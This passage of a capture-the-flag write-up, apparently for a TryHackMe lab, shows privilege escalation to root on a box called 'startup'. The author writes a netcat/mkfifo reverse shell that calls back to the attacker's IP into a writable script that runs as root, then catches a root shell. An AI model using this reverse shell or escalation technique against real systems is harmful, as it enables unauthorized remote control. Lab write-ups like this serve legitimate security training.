 #### Getting the root access
I looked at contents of home directory of lennie. `scripts` dir looks rather interesting as it is owned by root. so I went ahead and looked at the contents of scripts dir.
```zsh
lennie@startup:~$ ls -la
ls -la
total 20
drwx------ 4 lennie lennie 4096 Nov 12  2020 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cd scripts
cd scripts
lennie@startup:~/scripts$ ls -la
ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Feb  9 08:36 startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt
cat startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
Then I looked at what variables I can change in this script like the LIST variable and `print.sh` script. I initially assumed that `planner.sh` script runs whenever a user logs in 'cause it echo contents of `$LIST` into startup named txt file.

so I added a reverse shell in `print.sh` and started a listener on my machine. (`nc mkfifo` from [revshells.com](https://revshells.com))
```zsh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.X.X.X 4444 >/tmp/f
```
```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.23.42] 40910
bash: cannot set terminal process group (2196): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls
ls
root.txt
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3dxxx}
```
> Got root flag also THM{f963aaa6a430f210222158ae15c3dxxx}
{: .prompt-info }

And thats how this box got rooted.
Until next time keep hacking
Signing off <3.

> 10.X.X.X is my ip
> 10.10.23.42 is target machine
